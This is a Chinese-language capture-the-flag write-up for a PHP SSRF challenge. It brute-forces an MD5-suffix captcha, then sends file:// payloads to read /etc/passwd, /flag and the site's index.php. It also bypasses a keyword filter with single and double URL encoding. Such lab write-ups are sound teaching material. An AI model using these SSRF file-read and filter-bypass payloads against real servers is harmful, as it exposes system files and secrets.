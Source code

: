 ### write up 
Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
~~~
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
~~~


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
url=file:///etc/passwd&captcha=*****
接着试试能不能访问/flag文件
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
url=file:///var/www/html/index.php&captcha=*****
******************code************************
~~~
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}
~~~
阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
url=file:///%66%6c%61%67&captcha=*****
一次不行进行二次编码：
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****
